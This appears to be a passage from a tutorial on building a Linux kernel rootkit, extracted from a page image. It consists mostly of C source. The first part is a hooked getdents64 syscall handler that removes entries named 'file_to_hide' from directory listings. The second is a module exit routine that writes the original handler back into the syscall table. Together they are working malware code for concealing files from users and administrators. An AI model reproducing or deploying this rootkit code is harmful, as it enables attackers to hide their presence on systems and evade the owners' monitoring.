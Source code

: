```
    int ret = orig_getdents64(fd, dirp, count);
    struct linux_dirent64 *d, *kd, *kdirent = NULL;
    unsigned long offset = 0;

    if (ret <= 0)
        return ret;

    kdirent = kzalloc(ret, GFP_KERNEL);
    if (kdirent == NULL)
        return ret;

    if (copy_from_user(kdirent, dirp, ret)) {
        kfree(kdirent);
        return ret;
    }

    while (offset < ret) {
        d = (struct linux_dirent64 *)((char *)kdirent + offset);
        if (strcmp(d->d_name, "file_to_hide") == 0) {
            memmove(d, (char *)d + d->d_reclen, ret - offset - d->d_reclen);
            ret -= d->d_reclen;
        } else {
            offset += d->d_reclen;
        }
    }

    copy_to_user(dirp, kdirent, ret);
    kfree(kdirent);
    return ret;
}
6) Unloading and Restoring

When unloading the module, the original syscall is restored:

```
static void __exit ghost_exit(void)
{
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)orig_getdents64;
    protect_memory();

    printk(KERN_INFO "Rootkit unloaded: Syscall restored\n");
}
```